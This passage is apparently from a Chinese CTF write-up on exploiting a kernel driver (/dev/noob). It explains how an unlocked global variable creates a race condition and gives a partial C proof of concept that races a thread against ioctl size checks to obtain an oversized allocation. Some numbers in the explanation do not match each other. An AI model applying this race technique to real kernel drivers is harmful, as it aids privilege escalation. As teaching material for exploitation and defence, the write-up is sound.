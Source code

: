 然后，本设备涉及到了对全局变量的读写，且没有做加锁保护，这将导致`Race Condition`(条件竞争)漏洞的发生，即多次打开相同设备，他们将共享全局变量区域。

##### <a class="reference-link" name="%E5%88%86%E9%85%8D%E4%BB%BB%E6%84%8F%E5%9C%B0%E5%9D%80%E5%A4%A7%E5%B0%8F%E7%9A%84Chunk"></a>分配任意地址大小的Chunk

由于条件竞争的存在，我们可以轻松绕过`add_note`函数里的`size`检查，程序里的size检查形如这样

```
if ( arg[2] &gt; 0x70 || arg[2] &lt;= 0x1F )
    return -1LL;
```

但是此处的判断同样是分两步判断的，也就是，先判断`io -&gt; size`是否大于0x70，再判断`io -&gt; size`是否小于等于0x1F，如果我们创建一个并发进程，同时尝试把`io -&gt; size`的值刷新为`0xA0`(此处我们假设要分配的大小为`0xA0`)的一个”叠加态”，那么一定存在一个这样的情况，当进行`io -&gt; size`是否小于等于0x70的判断时，`io -&gt; size`的值还未被刷新，当进行`io -&gt; size`是否大于0x1F的判断时，`io -&gt; size`被刷新为了`0x1F`，这样就通过了保护。

**注意：我们在设定`io -&gt; size`的初值时，一定要小于0x1F，否则可能会发生直到`Chunk`分配结束`io -&gt; size`都没有被刷新的情况发生。**

我们首先构建如下PoC来测试：

```
#include &lt;sys/types.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;sys/wait.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;stdint.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
#include &lt;stropts.h&gt;
#include &lt;pthread.h&gt;
struct IO_noob {
    uint64_t index;
    void *buf;
    uint64_t size;
};
struct IO_noob io;

void fake_size() {
    while(1) {
        io.size = 0xA8; 
    }
}

int main()
{
    char IO_value[0x1000] = {0};
    int fd1 = open("/dev/noob", O_RDONLY);

    pthread_t t;
    pthread_create(&amp;t, NULL, (void*)fake_size, NULL);
    io.index = 0;
    io.buf   = IO_value;

    while (1)
    {
        io.size  = 0x10;
        if(ioctl(fd1, 0x30000, &amp;io) == 0)
            break;
    }
    pthread_cancel(t);
    puts("[+] Now we have a 0xA0 size Chunk!");
    ioctl(fd1, 0x30001, &amp;io); // For BreakPoint

```